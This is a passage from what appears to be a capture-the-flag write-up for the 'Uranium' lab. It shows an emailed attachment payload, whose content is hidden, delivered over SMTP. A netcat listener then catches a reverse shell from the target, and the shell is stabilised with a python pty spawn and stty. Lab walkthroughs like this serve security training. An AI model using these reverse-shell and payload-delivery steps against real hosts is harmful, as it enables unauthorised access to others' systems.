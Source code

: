 ```
 -> ------=_MIME_BOUNDARY_000_41279                                                                                                   
 -> Content-Type: application/octet-stream; name="application"                                                                        
 -> Content-Description: application                               
 -> Content-Disposition: attachment; filename="application"                                                                           
 -> Content-Transfer-Encoding: BASE64                              
 ->                                                                
 -> [hidden]]
  -> 
 -> ------=_MIME_BOUNDARY_000_41279--
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as D361A4012E
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.


 ```


Wait for 1 minute and BOOM we got Shell

```
root@ubuntu:~/THM/uranum# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.xx.xx] from (UNKNOWN) [10.10.xx.xx] 58774
bash: cannot set terminal process group (1898): Inappropriate ioctl for device
bash: no job control in this shell
hakanbey@uranium:~$ 

```

## Stabilze shell and enumerate

```
hakanbey@uranium:~$ export TERM=xterm
export TERM=xterm
hakanbey@uranium:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'    
python3 -c 'import pty;pty.spawn("/bin/bash")'
hakanbey@uranium:~$ ^Z
[1]+  Stopped                 nc -nlvp 4444
root@ubuntu:~/THM/uranum# stty raw -echo;fg
nc -nlvp 4444

hakanbey@uranium:~$ 
```

## First Flag
